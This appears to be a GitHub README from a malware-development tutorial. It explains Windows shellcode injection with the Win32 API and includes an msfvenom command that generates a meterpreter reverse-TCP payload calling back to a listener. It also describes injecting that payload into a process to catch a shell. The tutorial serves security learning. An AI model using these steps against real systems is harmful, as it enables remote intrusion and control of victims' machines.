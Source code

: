 ## `💉` Shellcode Injection

This technique is as vanilla as it gets; the simplest. It's also *quite* elegant. By attaching to an existing process, we're able to inject our own shellcode into it and have our shellcode run. A bit of an oversimplification since there's actually a lot going on under the covers; but we'll talk about that next. We're going to be using a lot of **Win32 API** calls for our malware development until we get more advanced in our craft. I've created another repo called [low-level](https://github.com/cr-0w/low-level) that also documents my experience with low-level languages including: `Assembly`, `C`, `C++`, `Win32 API`, etc. You could take a gander at it before coming here in case you're brand-brand new.

A shellcode injection consists of the following API calls:

- `OpenProcess()`
- `VirtualAllocEx()`
- `WriteProcessMemory()`
- `CreateRemoteThread()`

> **Note**:
> *All of the documentation for these functions, as well as the Win32 API can be found/read from [Microsoft themselves](https://learn.microsoft.com/en-us/windows/win32/apiindex/windows-api-list). It's an amazing resource; although it may seem extremely daunting at first. However, I promise that if you take the time to actually read it - as well as read the related documents that use your function, you'll come to appreciate this resource.*

## `💽` Demo

https://user-images.githubusercontent.com/59679082/220434097-27645ac4-c8a8-4679-bee8-f5ec277853a0.mp4

## `⚠️` Malicious Shellcode Example

> **Warning**:
> *The final code, isn't exactly a super-vanilla implementation of this technique. I included my code from the [process enumeration](https://github.com/cr-0w/low-level/tree/main/Win32%20API/5-enumerateprocess) part of my [low-level](https://github.com/cr-0w/low-level) repository. I thought it would be a neat little way of combining some concepts.*

In this example, I opted to go for harmless shellcode, which just pops-a-calc. You could definitely swap out your shellcode for something like a meterpreter shell or something. If I can help it, I'll try to opt for the less-malicious shellcode as a PoC. However, since this is our *first* time doing this, why not be a little extra? 😊

First, let's generate some shellcode with `msfvenom`. We'll try to get a simple meterpreter reverse shell going. 

```bash
cr0w@blackbird: ~
ζ ›› msfvenom --platform windows --arch x64 -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.198.128 LPORT=443 exitfunc=thread -b "\x00" -f c
```

![image](https://user-images.githubusercontent.com/59679082/220697432-372ce7ba-21d6-406f-b85a-9fde69b94130.png)

> **Note**:
> *Obviously, this would IMMEDIATELY get flagged by pretty much any AV/EDR; so, if you're planning on running this in a patched environment, good luck.*


With the shellcode now generated, we can include it in our script.

```cpp
unsigned char buf[] = ""; // SHELLCODE HERE
```

![image](https://user-images.githubusercontent.com/59679082/220699108-2a9717cb-eda9-465b-8e87-7ca8534ccafe.png)

Nice, our script is now *locked and loaded*. Let's compile it, and get our `exploit/multi/handler` ready to catch the shell. 

![image](https://user-images.githubusercontent.com/59679082/220700137-31a60641-0aa3-4fd9-bc35-4d115d8c5edd.png)

Finally, we can now use our executable to see if we catch a shell. Let's see how it goes:

https://user-images.githubusercontent.com/59679082/220713806-f2b4d399-f045-4699-805a-c4da7c7c930e.mp4

We can also inspect the notepad process after getting a shell. We can see that it gets a new DLL that it should otherwise never have. `ws2_32.dll` which is responsible for sockets.

![image](https://user-images.githubusercontent.com/59679082/220707821-832d13fc-99ad-422f-80a4-b1a5a5f935e7.png)



## `💖` Extra Resources

Some other resources you can use to read up on this technique are:

- [CreateRemoteThread Shellcode Injection](https://www.ired.team/offensive-security/code-injection-process-injection/process-injection)
- [Process Injection using CreateRemoteThread API](https://tbhaxor.com/createremotethread-process-injection/)
- [Process Injection: Remote Thread Injection or CreateRemoteThread](https://aliongreen.github.io/posts/remote-thread-injection.html)
